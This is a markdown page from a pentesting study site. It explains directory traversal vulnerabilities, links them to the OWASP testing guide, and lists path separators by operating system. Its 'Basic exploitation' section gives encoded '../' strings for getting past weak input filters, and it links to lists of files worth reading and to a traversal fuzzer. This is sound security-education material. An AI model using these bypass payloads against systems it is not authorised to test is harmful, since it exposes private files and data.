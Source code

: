 ```yaml
---
title: Directory Traversal attack
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# Directory Traversal attack

??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 5. Authorization Testing > 5.1. Testing Directory Traversal File Include

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|5.1|[WSTG-ATHZ-01](../OWASP/WSTG-ATHZ-01.md)|[Testing Directory Traversal File Include](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)|- Identify injection points that pertain to path traversal.  - Assess bypassing techniques and identify the extent of path traversal (dot-dot-slash attack, Local/Remote file inclusion)|

??? example "Resources"
	- [PayAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#basic-exploitation)


Directory traversal vulnerabilities, also known as path traversal or directory climbing vulnerabilities, are a type of security vulnerability that occurs when a web application allows **unauthorized access to files and directories outside the intended or authorized directory structure**. Directory traversal vulnerabilities can lead to serious data breaches and system compromises if not addressed/mitigated.

Directory traversal vulnerabilities typically arise from improper handling of user input, especially when dealing with file or directory paths. This input could be obtained from URL parameters, user-generated content, or other sources. An attacker takes  advantage of lax input validation or insufficient sanitization of user inputs. They manipulate the input by adding special characters or sequences that trick the application into navigating to directories it shouldn't have access to.

## Before testing

Each operating system uses different characters as path separator:

_Unix-like OS_:

```
root directory: "/"
directory separator: "/"
```

_Windows OS' Shell'_:

```
root directory: "<drive letter>:\"
directory separator: "\" or "/"
```

_Classic Mac OS_:

```
root directory: "<drive letter>:"
directory separator: ":"
```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```
../
..\
..\/


#####
# - URL encoding and double URL encoding
#####

# ../
%2e%2e%2f
%2e%2e/
..%2f

# ..\
%2e%2e%5c
%2e%2e\
..%5c
%252e%252e%255c

... 
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```


## Interesting files

[Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)
[Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).
- DotDotPwn - The Directory Traversal Fuzzer - [http://dotdotpwn.sectester.net](http://dotdotpwn.sectester.net/)

